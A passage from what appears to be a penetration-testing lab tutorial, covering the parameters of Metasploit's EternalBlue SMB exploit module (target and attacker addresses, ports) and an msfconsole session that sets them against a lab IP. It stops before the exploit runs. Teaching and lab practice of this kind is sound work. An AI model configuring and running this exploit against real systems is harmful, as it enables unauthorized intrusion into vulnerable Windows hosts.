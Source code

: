***

### Using Payloads

Time to set our parameters for both the Exploit module and the payload module. For the Exploit part, we will need to set the following:

| **Parameter** | **Description**                                                                        |
| ------------- | -------------------------------------------------------------------------------------- |
| `RHOSTS`      | The IP address of the remote host, the target machine.                                 |
| `RPORT`       | Does not require a change, just a check that we are on port 445, where SMB is running. |

For the payload part, we will need to set the following:

| **Parameter** | **Description**                                                              |
| ------------- | ---------------------------------------------------------------------------- |
| `LHOST`       | The host's IP address, the attacker's machine.                               |
| `LPORT`       | Does not require a change, just a check that the port is not already in use. |

If we want to check our LHOST IP address quickly, we can always call the `ifconfig` command directly from the msfconsole menu.

**MSF - Exploit and Payload Configuration**

Payloads

```shell-session
msf6 exploit(**windows/smb/ms17_010_eternalblue**) > ifconfig

**[\*]** exec: ifconfig

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST> mtu 1500

<SNIP>

inet 10.10.14.15 netmask 255.255.254.0 destination 10.10.14.15

<SNIP>


msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.15

LHOST => 10.10.14.15


msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40
```

Then, we can run the exploit and see what it returns. Check out the differences in the output below:
